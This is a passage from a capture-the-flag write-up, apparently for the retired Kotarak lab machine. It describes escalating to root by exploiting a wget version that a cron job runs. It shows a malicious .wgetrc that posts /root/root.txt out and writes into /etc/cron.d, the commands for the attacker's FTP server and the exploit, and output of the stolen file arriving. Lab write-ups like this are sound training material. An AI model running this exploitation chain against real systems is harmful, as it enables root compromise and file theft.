 The frequency of the requests in 'app.log' suggests that its a cronjob command, running an exploitable version of wget.

This is likely to be the best route to root!



<h3>Exploit-Wget</h3>

I download the exploit and copy it as `exploit-wget.py`, adjust the 'listen' ip addresses, and run an ftp server.

![exploit-nano](/assets/img/kotarak/kotarak-exploit-nano.png)

Send the exploit file to the target


Create .wgetrc containing the following...make sure its in the folder to be served by Twistd ftp server.

```
post_file = /root/root.txt
output_document = /etc/cron.d/wget-root-shell
```


Start the ftp server:

```
twistd -n ftp -p 21 -r /root/HTB/retired/kotarak/
```


Run the exploit - we need to use authbind to successfully run this or it will fail because the port is below
1024, so it requires elevated privs.

```
authbind python exploit-wget.py
```


After a wait, we get the contents of root.txt...

```

10.0.3.133 - - [04/Mar/2020 12:42:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.10.14.14:21/.wgetrc 

We have a volunteer requesting /archive.tar.gz by POST :)

Received POST from wget, this should be the extracted /etc/shadow file: 

---[begin]---
 95xxxxxxxxxxxxxxxxxxxxxxxxxxxx2c
 
---[eof]---

```


:)
